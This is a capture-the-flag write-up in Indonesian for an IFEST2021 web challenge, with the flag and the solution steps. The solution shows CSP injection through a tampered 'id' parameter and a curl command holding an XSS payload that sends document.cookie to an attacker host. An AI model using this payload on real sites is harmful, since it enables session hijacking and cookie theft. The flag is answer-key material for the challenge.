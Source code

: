# FLAG
`IFEST2021{0n_7h3_w4y_7o_F!nd_my_Si57er!!!_}`

# Description
Perkenalkan namaku adalah Katheryne, Aku adalah resepsio— \*skip\*

# Level
Medium

# Deploy
```
$ sudo ./build_docker.sh
```

# Solution
1. Terdapat Parameter Tampering di parameter id
2. Merubah parameter id untuk melakukan CSP Injection
```
$ curl -X 'POST' -H 'Content-Type: application/json' --data-raw $'{\"id\":\"b; script-src-elem \'unsafe-inline\'\",\"subject\":\"abc\",\"content\":\"<script>fetch(\'http://ipaddress:1234/?\'+document.cookie)</script>\"}' http://localhost:1337/open-commission```
```
3. Submit commission
```
$ curl -X 'POST' -H 'Content-Type: application/json' --data-raw $'{\"id\":\"b; script-src-elem \'unsafe-inline\'\"}' http://localhost:1337/submit-commission
```